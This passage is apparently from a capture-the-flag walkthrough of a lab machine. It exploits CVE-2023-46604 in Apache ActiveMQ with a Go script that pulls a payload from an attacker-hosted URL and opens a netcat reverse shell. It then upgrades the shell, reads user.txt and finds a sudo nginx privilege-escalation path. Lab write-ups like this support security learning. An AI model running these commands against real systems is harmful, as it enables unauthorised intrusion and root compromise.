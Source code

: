     ```bash
    $ go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.4:8000/poc-linux.xml
    ```

    We should now have our reverse shell back to our listener:

    ```bash
    $ nc -lvnp 1337
    listening on [any] 1337 ...
    connect to [10.10.14.4] from (UNKNOWN) [10.10.11.243] 43388
    id
    uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
    ```

### Privilege Escalation

8.  Let's first upgrade our shell and search for `user.txt`:

    ```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
    [1]+  Stopped                 nc -lvnp 1337

    ┌──(kali㉿CSpanias)-[/opt/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ]
    └─$ stty raw -echo; fg
    nc -lvnp 1337

    activemq@broker:/opt/apache-activemq-5.15.15/bin$ export TERM=xterm
    activemq@broker:/opt/apache-activemq-5.15.15/bin$  find / -type f -name user.txt 2>/dev/null
    /home/activemq/user.txt
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt
    <SNIP>
    ```
9.  Next, let's check if we can run any command with `sudo`:

    ```bash
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
    Matching Defaults entries for activemq on broker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty

    User activemq may run the following commands on broker:
        (ALL : ALL) NOPASSWD: /usr/sbin/nginx
    ```
10. It seems that we can run the `nginx` app as `root`, so let's examine its configuration:

    ```bash
    # move to the webserver directory
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ cd /etc/nginx/
    # display the configuration's file content while removing the comments
    activemq@broker:/etc/nginx$ cat nginx.conf | grep -v '\#' | grep .
    user www-data;
    worker_processes auto;
    pid /run/nginx.pid;
    include /etc/nginx/modules-enabled/*.conf;
    events {
            worker_connections 768;
    }
    http {
            sendfile on;
            tcp_nopush on;
            types_hash_max_size 2048;